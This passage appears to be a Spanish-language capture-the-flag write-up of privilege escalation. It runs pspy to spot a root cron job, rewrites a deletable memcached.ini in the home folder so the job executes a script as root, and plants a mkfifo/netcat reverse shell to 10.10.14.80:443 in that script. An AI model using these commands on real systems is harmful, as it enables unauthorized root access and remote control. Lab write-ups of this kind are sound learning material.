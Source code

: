 Desde la maquina victima, downloadeamos el fichero y lo lanzamos

```bash
wget http://10.10.14.8/pspy
chmod +x pspy
./pspy
```

Podemos ver que hay una tarea ejecutada por root que lanza un `sudo -u nobody /usr/bin/node /home/professor/memcached.js` 

Si vamos al `/home/professor` vemos el fichero `memcached.js` pero no nos deja ver lo que hay dentro. Hay otro fichero `memcached.ini` que contiene
el comando ejecutado durante la tarea cron. 

Aqui el truco es que aun que el fichero no se puedo modificar, como esta en nuestra carpeta HOME, lo podemos borrar.

```bash
rm memcached.ini
vi memcached.ini


[program:memcached]
command = sudo -u root /tmp/pwn.sh
```

aqui creamos el pwn.sh

```bash
cd /tmp
touch pwn.sh
chmod +x pwn.sh
vi pwn.sh

#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.80 443 >/tmp/f
```

nos ponemos en escucha por el puerto 443

```bash
nc -nlvp 443
```

Esperamos un poco y ganamos acceso al systema como root y podemos leer la flag.
